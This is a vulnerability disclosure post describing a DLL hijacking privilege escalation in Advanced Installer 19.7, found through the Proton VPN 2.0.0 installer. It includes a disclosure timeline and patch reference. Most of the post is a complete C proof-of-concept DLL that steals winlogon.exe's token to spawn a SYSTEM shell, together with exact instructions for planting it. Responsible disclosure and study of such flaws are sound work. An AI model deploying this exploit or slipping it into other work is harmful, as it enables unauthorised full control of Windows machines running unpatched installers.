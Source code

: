 ```yaml
---
title : "Advaned Installer Local Privilege Escalation Vulnerability"
excerpt: "Advaned Installer Local Privilege Escalation Vulnerability"
toc: true

categories:
    - "0-day"
tags:
    - [Mitre]
---
```


## 0x01: Details

- Title: Advanced Installer Local Privilege Escalation Vulnerability
- CVE ID:
- Advisory Published: 2022/08/01
- Advisory URL: https://www.advancedinstaller.com/release-19.7.1.html#bugfixes
- Vendor URL : https://www.advancedinstaller.com

## 0x02: Test Environment

OS : Windows 10 Pro 64 bit 21H2 (build 19044.1826)
Advanced Installer: 19.7
Proton VPN: 2.0.0

## 0x03: Vulnerability details

A vulnerability existed in the Advanced Installer that loaded GdiPlus.dll, one of the WinSxS DLLs.

## 0x04: Technical description

I found this vulnerability through Proton VPN, so I will describe it as Proton VPN.
The Proton VPN installer runs with Administrator privileges and loads GdiPlus.dll from `%INSTALLER_LOCATION%\ProtonVPN_win_v2.0.0.exe.Local\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7`. If the `ProtonVPN_win_v2.0.0.exe.Local` directory does not exist, load the dll from `C:\Windows\WinSxS\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7`. At this time, the ProtonVPN_win_v2.0.0.exe.Local directory can be accessed by general users, so the attacker can load GdiPlus.dll with Administrator privileges and elevate it to SYSTEM privileges through a dll hijacking attack.
I discovered this vulnerability through [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).
![Untitled](/files/Advaned%20Installer%20Local%20Privilege%20Escalation%20Vulnerability/Untitled.png)

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
						exploit();
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
        }

        case DLL_THREAD_DETACH: {
            break;
        }

        case DLL_PROCESS_DETACH: {
            break;
        }
    }
    return TRUE;
}
```

- After compiling the above code in x86 mode, place it as `%INSTALLER_LOCATION%\%INSTALLER%.Local\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7\GdiPlus.dll`.

## 0x06: Affected Products

This vulnerability affects the following product:

- Advanced Installer <= 19.7
- Proton VPN for Windows <= 2.0.0

## 0x07: TimeLine

- 2022/06/12 : First time contacted via email from Proton VPN(security@protonmail.com).
- 2022/07/20 : Proton VPN said this was an Advanced Installer vulnerability and asked the Advanced Installer if they could share the POC.
- 2022/08/01 : Received confirmation that a patch is being released (v19.7.1). Advanced Installer gave me the Advanced Installer Architect license key as a token of appreciation.

## 0x08: Reference

- [https://www.advancedinstaller.com/release-19.7.1.html#bugfixes](https://www.advancedinstaller.com/release-19.7.1.html#bugfixes)
